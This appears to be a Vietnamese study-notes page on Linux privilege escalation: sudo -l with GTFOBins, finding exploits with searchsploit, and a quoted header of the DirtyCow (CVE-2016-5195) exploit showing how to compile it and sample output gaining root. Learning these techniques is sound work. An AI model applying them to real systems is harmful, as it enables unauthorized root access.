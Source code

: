 ### Leo thang đặc quyền trong GNU/Linux là quá trình giành được đặc quyền cao hơn trong hệ thống Linux, thường được chuyển từ người dùng có đặc quyền thấp sang tài khoản root . Điều này đạt được bằng cách khai thác các lỗ hổng , cấu hình sai hoặc các hành vi không an toàn cho phép truy cập hoặc kiểm soát trái phép.

<img width="898" height="895" alt="image" src="https://github.com/user-attachments/assets/d522810b-a455-47a7-8cb0-ca92021d54b9" />

<img width="911" height="910" alt="image" src="https://github.com/user-attachments/assets/0fd381e5-290f-4b0d-a503-31ead65376ad" />

<img width="877" height="633" alt="image" src="https://github.com/user-attachments/assets/7d9d6ff5-5ed9-4fbf-8952-9fd80ee5aeda" />

### câu hỏi của bạn hỏi về việc đọc (sudo -l) xem người dùng được phép chạy lệnh nào dưới quyền root, rồi lợi dụng những lệnh đó để leo thang đặc quyền (từ user thường lên root). GTFOBins là một kho công khai liệt kê những chương trình trên hệ thống mà, nếu được chạy dưới quyền root (hoặc với quyền nâng cao), có thể bị “lợi dụng” để mở shell, đọc/ghi file, tải lên, v.v.

<img width="614" height="865" alt="image" src="https://github.com/user-attachments/assets/0d012f4c-2d34-4545-a49a-70b599843336" />

<img width="630" height="794" alt="image" src="https://github.com/user-attachments/assets/cc32273d-f7c2-4664-8939-a1dd288c79a0" />

<img width="594" height="423" alt="image" src="https://github.com/user-attachments/assets/6b6d2a9b-17eb-4e37-b129-6a52aaff1149" />

<img width="882" height="410" alt="image" src="https://github.com/user-attachments/assets/7e908f87-7062-4352-ac12-c485ef74078f" />

<img width="883" height="627" alt="image" src="https://github.com/user-attachments/assets/dea4825a-a498-4513-8b07-d78e03c5f2c1" />

<img width="898" height="700" alt="image" src="https://github.com/user-attachments/assets/c74146b0-92c1-407f-b8aa-ca216771ceb3" />

### có nghĩa là mình sẽ dùng cái file A (có tên exploit ở cột Exploit Title) và exploit có địa chỉ là ô (Path) đúng k

<img width="859" height="351" alt="image" src="https://github.com/user-attachments/assets/8e91b24b-ffd4-4296-a973-a0619e350d41" />

<img width="619" height="918" alt="image" src="https://github.com/user-attachments/assets/ff960097-5d6c-4189-9356-82e1351e319b" />

```
/*
* A PTRACE_POKEDATA variant of CVE-2016-5195
* should work on RHEL 5 & 6
* 
* (un)comment correct payload (x86 or x64)!
* $ gcc -pthread c0w.c  -o c0w
* $ ./c0w
* DirtyCow root privilege escalation
* Backing up /usr/bin/passwd.. to /tmp/bak
* mmap fa65a000
* madvise 0
* ptrace 0
* $ /usr/bin/passwd 
* [root@server foo]# whoami 
* root
* [root@server foo]# id
* uid=0(root) gid=501(foo) groups=501(foo)
* @KrE80r
*/
#include <fcntl.h>
```